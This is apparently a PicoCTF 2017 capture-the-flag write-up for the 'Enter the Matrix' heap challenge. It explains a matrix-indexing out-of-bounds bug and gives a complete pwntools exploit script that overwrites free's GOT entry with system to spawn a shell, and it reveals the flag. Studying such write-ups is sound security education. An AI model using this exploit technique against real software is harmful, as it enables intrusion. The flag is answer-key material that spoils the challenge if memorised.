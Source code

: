 # PicoCTF_2017: Enter the Matrix

**Category:** Binary Exploitation

**Points:** 150

**Description:**

The Matrix awaits you,. Take the [red pill](https://webshell2017.picoctf.com/static/6a932ca4e0c8977d96dc08b759a6a1aa/matrix) and begin your journey. [Source](https://webshell2017.picoctf.com/static/6a932ca4e0c8977d96dc08b759a6a1aa/matrix.c). Jack in at shell2017.picoctf.com:52501.

**Hint:**

- Look carefully at how the matrix is indexed.
- Study the heap memory layout to see what you can overwrite.

## Write-up
When we have a look at the application, we can see that  `print`  command does not work. I don't know if it was intended, but we can solve the challenge without it.

} else if(2 == sscanf(cmdbuf, "print %d", &id)) {
        handle_print(id);

According to Linux Programmer's Manual  `On success, these functions return the number of input items successfully matched and assigned`, but we have only one parameter (so the function always returns 0 or 1 in this case). We can patch it locally, but unfortunately server also runs version with this bug.

The code isn't too long, so we can analyze it quickly and hopefully find the vulnerability. It appears that vulnerable functions are  `handle_get`  and  `handle_set`.

m->data[r * m->nrows + c] = v;

If number of rows is greater than number of columns we can read/write to arbitrary place in memory. Let's assume 2x3 matrix. It would be printed like this.

```
0 1
2 3
4 5

```

However, if we want to write to  `r=2 c=1`  we'll get  `r * m->nrows + c = 2*3+1=7`. Clearly we accessed the memory after our array.

struct matrix {
    int nrows, ncols;
    float *data;
};

We can create two matrices, one rectangle (number of rows must be greater than number of columns) and second one can be square (it doesn't matter). We'll use first one to overwrite data pointer of the second matrix. Then  `get`  and  `set`  commands will access memory of our choice. We can overwrite some address in  `.got.plt`, but which one is the best? We want to find a function that takes pointer to string we control as first argument.  `handle_command`  and  `free`  are the only function that comply with this requirement (note that there are no types in assembly, so we just need a pointer).  `handle_command`  isn't dynamically loaded, so we can only choose  `free`.

With radare2 on webshell we can obtain offsets we need. (`setbuf`  is first entry in  `.got.plt`)

```
$ r2 /lib32/libc.so.6  
[0x00019bc0]> ?v sym.setbuf
0x6b350
[0x00019bc0]> ?v sym.system
0x3e3e0
```

The last thing we have to do is to create third matrix with our string.

```python
#!/usr/bin/env python2
from pwn import *
from struct import pack,unpack
setbuf_got_plt = 0x0804A104
setbuf_offset = 0x6b350
system_offset = 0x3e3e0
r = remote("shell2017.picoctf.com",19369)
r.send("create 10 5\n")
r.send("create 3 3\n")
r.send("create 2 2\n")
r.send("set 0 5 4 %.9g \n"%(unpack(">f",pack(">I",setbuf_got_plt))[0]))
r.send("get 1 0 0\n")
r.recvuntil("Matrix[0][0] = ")
real_setbuf = unpack(">I",pack(">f",float(r.recvline().strip())))[0]
libc_base = real_setbuf-setbuf_offset
system_addr = libc_base + system_offset
r.send("set 1 0 2 %.9g \n"%(unpack(">f",pack(">I",system_addr))[0]))
r.send("set 2 0 0 %.9g \n"%(unpack("<f","/bin")[0]))
r.send("set 2 0 1 %.9g \n"%(unpack("<f","/sh\x00")[0]))
r.send("destroy 2\n")
r.interactive()
```

If you have problems with floats remember to use  `%.9g`  format, it should allow to represent it unambiguously (when I used  `%f`,  `%g`  or  `%e`  it was encoded differently on server).

The flag is  `56d46f10a5d2030c6c4a8ad4294c11fd`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIzMTQxNjQ2OSwtMTE5OTA3MTU1MV19
-->